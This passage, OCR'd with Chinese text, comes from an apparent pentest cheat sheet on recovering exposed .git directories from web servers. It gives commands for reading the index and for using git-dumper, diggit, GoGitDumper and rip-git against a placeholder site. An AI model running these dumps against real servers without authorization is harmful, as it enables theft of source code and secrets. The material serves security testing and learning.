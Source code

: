 恢复索引中列出的每个文件的名称和 sha1 哈希，并使用上述相同过程恢复文件。

```powershell
$ gin .git/index | egrep -e "name|sha1"
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```

### 工具

#### 自动恢复

##### git-dumper.py

```powershell
git clone https://github.com/arthaud/git-dumper
pip install -r requirements.txt
./git-dumper.py http://web.site/.git ~/website
```

##### diggit.py

```powershell
git clone https://github.com/bl4de/security-tools/ && cd security-tools/diggit
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://web.site -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u 是 .git 文件夹所在的远程路径
-t 是本地文件夹的路径，该文件夹包含虚拟 Git 仓库，并以实际名称保存 blob 内容（文件）（cd /path/to/temp/folder && git init）
-o 是要下载的特定 Git 对象的哈希值
```

##### GoGitDumper

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://web.site/.git/ -o yourdecideddir/.git/
git log
git checkout
```

##### rip-git

```powershell
git clone https://github.com/kost/dvcs-ripper
perl rip-git.pl -v -u "http://web.site/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael<michael@easyctf.com> 1489389105 +0000
committer Michael<michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```
